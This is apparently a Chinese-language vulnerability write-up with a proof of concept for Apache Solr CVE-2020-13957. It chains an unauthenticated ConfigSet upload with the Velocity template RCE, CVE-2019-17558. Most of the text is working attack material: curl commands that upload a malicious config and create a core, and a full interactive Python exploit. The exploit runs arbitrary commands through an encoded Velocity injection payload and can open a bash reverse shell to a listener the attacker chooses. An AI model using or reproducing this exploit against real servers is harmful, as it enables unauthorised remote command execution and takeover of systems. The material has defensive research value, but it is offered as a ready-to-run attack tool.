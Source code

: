 # Apache-Solr-RCE-未授权上传漏洞-CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

> [!NOTE]
>
> Apache Solr 6.6.0 -6.6.5
>
> Apache Solr 7.0.0 -7.7.3
>
> Apache Solr 8.0.0 -8.6.2

## 环境搭建

选择一个存在漏洞的版本

[下载各版本Solr地址](http://archive.apache.org/dist/lucene/solr/)

这里复现使用的是 Apache Solr 7.7.0 进行复现

下载后执行以下命令进行环境部署

```
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr 
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![](Apache-Solr-RCE-未授权上传漏洞-CVE-2020-13957.assets/1627363480316364.jpg)

将 vuln.zip 进行上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

> [!NOTE]
>
> name参数为压缩包的文件名

利用漏洞创建一个 core 

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

> [!NOTE]
>
> name参数为创建的core核心名
>
> collection.configName参数为上传的文件名

![](Apache-Solr-RCE-未授权上传漏洞-CVE-2020-13957.assets/1627363480567691.jpg)

查看core列表，发现已经成功创建

![](Apache-Solr-RCE-未授权上传漏洞-CVE-2020-13957.assets/1627363480831222.jpg)

再使用 Apache Solr Velocity模板远程执行 CVE-2019-17558 即可执行任意命令

> POC使用详情参考另一篇复现文章

![](Apache-Solr-RCE-未授权上传漏洞-CVE-2020-13957.assets/1627363481118721.jpg)

## 漏洞利用POC

> [!NOTE]
>
> 使用前按复现步骤上传对应版本的zip文件，例如我这里上传的文件为 qwert.zip,其他使用方法与 Apache Solr Velocity模板远程执行 CVE-2019-17558 的POC使用方法类似

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import re
import sys
import os
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 6.6.0 -6.6.5        \033[0m')
    print('+  \033[34m         Apache Solr 7.0.0 -7.7.3        \033[0m')
    print('+  \033[34m         Apache Solr 8.0.0 -8.6.2        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2020-13957.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983   \033[0m')
    print('+  \033[36mZip    >>> vuln.zip(Zip文件名)            \033[0m')
    print('+------------------------------------------')


def POC_1(target_url, file_name):
    core_name = str(input("\033[35mPlease input Create Core Name\nCore >>> \033[0m"))
    core_update = """%s/solr/admin/collections?action=CREATE&name=%s&numShards=1&replicationFactor=1&wt=xml&collection.configName=%s""" % (target_url, core_name, file_name.replace(".zip",""))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    response = requests.get(url=core_update, headers=headers, timeout=30)
    if response.status_code != 200:
        print("\033[31m[x] 创建Core失败 \033[0m")
        sys.exit(0)
    else:
        core = re.findall(r'<str name="core">(.*?)</str>',response.text)[0]
        vuln_url = target_url + "/solr/" + core + "/config"
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core + "/config\033[0m")
        return vuln_url,core

def POC_2(target_url, core):
    open_params = target_url + "/solr/" + core + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)


def POC_3(target_url, core, cmd):
    vuln_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vuln_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core, IP, PORT):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, PORT)
    vnul_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = str(input("\033[35mPlease input File Name\nZip >>> \033[0m"))
    vuln_url,core = POC_1(target_url, file_name)
    POC_2(target_url, core)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core, IP, PORT)
        else:
            POC_3(target_url, core, cmd)
```

![](Apache-Solr-RCE-未授权上传漏洞-CVE-2020-13957.assets/1627363481434072.jpg)